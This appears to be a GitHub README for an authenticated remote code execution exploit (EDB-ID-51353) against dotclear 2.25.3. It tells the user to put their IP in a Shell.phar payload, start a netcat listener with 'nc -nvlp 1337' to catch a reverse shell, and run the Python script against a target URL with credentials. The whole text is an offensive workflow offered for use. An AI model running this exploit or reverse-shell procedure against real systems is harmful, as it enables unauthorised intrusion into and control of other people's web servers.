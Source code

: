 # EDB-ID-51353
dotclear 2.25.3 - Remote Code Execution (RCE) (Authenticated)

Change Your Ip in Shell.phar file 

Usages:

```python3 EDB-ID-51353.py -d http://192.168.0.118 -u tikku -p 123456```

Steps: For getting Shell

```nc -nvlp 1337```

![image](https://user-images.githubusercontent.com/25599963/235438008-4f8d3a4d-1779-47be-838b-647f3969d713.png)

```python3 EDB-ID-51353.py -d http://192.168.0.118 -u tikku -p 123456```

![image](https://user-images.githubusercontent.com/25599963/235438235-fd6057da-d1fd-44b7-9b4e-f083d5910782.png)


